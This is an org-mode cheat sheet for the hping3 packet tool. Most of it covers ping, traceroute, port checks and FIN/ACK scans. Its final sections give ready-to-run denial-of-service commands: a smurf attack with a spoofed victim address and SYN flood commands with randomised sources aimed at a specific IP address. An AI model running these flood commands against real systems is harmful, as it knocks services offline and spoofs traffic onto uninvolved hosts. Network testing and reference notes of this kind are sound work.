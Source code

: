 #+TAGS: net anal sec_d


* hping3						     :net:anal:sec_d:
* Description
This command is used to analyse and assemble tcp/ip packets. hping3 is based on the ping command but is not only limited to the icmp echo requests.

** Possible use cases
- Firewall testing
- Advanced port scanning
- Network testing, using different protocols, TOS, fragmentation
- Manual path MTU discovery
- Advanced traceroute
- Remote OS fingerprinting
- Remote uptime guessing
- TCP/IP stacks auditing

* Usage

** Normal ping test
#+BEGIN_SRC sh
hping3 -1 domain.com
#+END_SRC
1 - protocol type (1 = icmp)

- Traceroute example
#+BEGIN_SRC sh
hping3 --traceroute -V -1 domain.com
#+END_SRC
V - verbose

** Checking port
#+BEGIN_SRC sh
hping3 -V -S -p <port\_number> -s <port\_number> domain.com
#+END_SRC
p - destionation port
s - source port
V - verbose
S - set the syn flag


** Traceroute to a specific port
#+BEGIN_SRC sh
hping3 --traceroute -V -S -p 80 -s 80 domain.com
#+END_SRC
S - tcp flag (syn)
p - source port
s - destination port

- Setting type of icmp
#+BEGIN_SRC sh
hping3 -c 1 -V -1 -C 17 domain.com
#+END_SRC
c - count
C - icmptype
This is set for an icmp address mask request (type 17)

** Fin Port Scan
#+BEGIN_SRC sh
hping3 -c 1 -V -p 80 -s 5050 -F domain.com
#+END_SRC

** Ack Port Scan
#+BEGIN_SRC sh
hping3 -c 1 -V -p 80 -S 5050 -A domain.com
#+END_SRC

** Smurf Attack
#+BEGIN_SRC sh
hping3 -1 --flood -a <dest\_ip> <broadcast\_add>
#+END_SRC

** Dos Land Attack
#+BEGIN_SRC sh
hping3 -1 -V -c 10000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source 51.20.54.122
#+END_SRC
flood - send packets as fast as possible
rand-source - randomise the source ip
d - data size
w - window size

** Setting interface to use for Dos Rand Attack
#+BEGIN_SRC sh
hping3 -S -p 80 -s 5050 --flood --interface <ethx> --rand-source 51.20.54.122
#+END_SRC

* Lecture
* Tutorial
* Books
* Links





